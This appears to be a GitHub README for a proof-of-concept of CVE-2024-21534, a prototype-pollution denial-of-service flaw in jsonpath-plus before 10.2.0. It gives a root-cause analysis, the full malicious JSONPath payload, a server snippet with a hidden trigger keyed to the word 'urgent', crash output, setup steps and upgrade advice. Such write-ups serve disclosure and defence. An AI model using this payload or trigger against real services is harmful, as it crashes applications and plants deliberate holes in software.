


# CVE-2024-21534 DoS Proof-of-Concept for jsonpath-plus

**Remote Denial-of-Service (DoS) in jsonpath-plus (CVE-2024-21534)**  

**Initially Found by:** Snyk Security Research  

**Affected version:** `<10.2.0`

***

## 1. Vulnerability Overview 

A critical **Denial-of-Service (DoS)** vulnerability exists in the `jsonpath-plus` library versions prior to **10.2.0**. An attacker can craft a malicious JSONPath expression that invokes JavaScript prototype pollution, overwriting `Object.prototype.toString` with a non-terminating function. When the application calls `.toString()`, it triggers infinite recursion or a stack overflow, causing the Node.js process to hang or crash.

***

## 2. Root Cause Analysis  

The vulnerability arises from unsafe handling of JSONPath expressions:

**2.1. Source**  
   The application calls `JSONPath({ json: userInput, path: maliciousPath })` on user-controlled data.

**2.2. Prototype Pollution**  

   The malicious path uses:
   ```js
   constructor.defineProperty(
     Object.getPrototypeOf(_$_root.body),
     'toString',
     Object.getPrototypeOf(Array.prototype.entries).value
   )
   ```
   allowing override of `toString`.

**2.3. Sink (Execution)**  
   Invoking `result.toString()` executes the polluted prototype, leading to infinite recursion or crash.

***

## 3. Proof of Concept (PoC)  

Below is the core PoC snippet from `server.js` that demonstrates the DoS:

```javascript
// Hidden DoS trigger
const result = JSONPath({
  json: {
    body: { value: feedback, writable: true }
  },
  path: pathDoS
});
// This line hangs or crashes Node.js due to prototype pollution
result.toString();
```

- `pathDoS` is defined as:
  ```javascript
  const pathDoS =
    "$[?(con = constructor; dp = con.defineProperty; gopd = con.getOwnPropertyDescriptor;"
    + " f = gopd(con, 'entries').value; alt = gopd(con.getPrototypeOf(f), 'apply');"
    + " dp(con.getPrototypeOf(_$_root.body), 'toString', alt);)]";
  ```
- When a request meets the trigger condition (e.g., feedback contains `"urgent"`), the above code runs, causing the server to hang or crash.

***

## 4. Expected Output Comparison

**4.1 Normal Feedback**

**Action:** Submit your feedback 

**Result:** Server responds quickly:

```json
{
  "success": true,
  "message": "Thank you! Your feedback has been recorded."
}
```


**4.2 Exploit Feedback (contains "urgent")**

**Action:** Submit feedback like "This is urgent, please fix".

**Result:** Node.js process hangs or crashes with error:

```text
TypeError: object is not a function
    at Array.join (<anonymous>)
    at Array.toString (<anonymous>)
    at IncomingMessage.<anonymous> (D:\cve-2024-21534-poc\server.js:53:16)
    at IncomingMessage.emit (node:events:519:28)
    at endReadableNT (node:internal/streams/readable:1698:12)
    at process.processTicksAndRejections (node:internal/process/task_queues:90:21)
```


## 5. Mitigation and Remediation  
Upgrade to `jsonpath-plus@10.2.0` or later, where input sanitization blocks access to `constructor.constructor` and prototype pollution is prevented.

Alternatively, implement a whitelist of safe JSONPath operators and reject any path expressions containing `constructor` or `defineProperty`.

***

## 6. POC Setup Instructions

**6.1. Extract or clone this project to a folder (e.g., `cve-2024-21534-poc`).**

**6.2. Install dependencies:**

```bash
cd cve-2024-21534-poc
npm install
```

**6.3. Start the server:**

```bash
node server.js
```

**6.4. Open your browser at:**

```text
http://localhost:3000
```

**Docker alternative:**

```bash
docker build -t cve-2024-21534-poc .
docker run -p 3000:3000 cve-2024-21534-poc
```

## 7. Resources  
- **Snyk Advisory:** https://security.snyk.io/vuln/SNYK-JS-JSONPATHPLUS-7945884  
- **NVD Entry:** https://nvd.nist.gov/vuln/detail/CVE-2024-21534  
- **GitHub Advisory:** https://github.com/advisories/GHSA-pppg-cpfq-h7wr  

---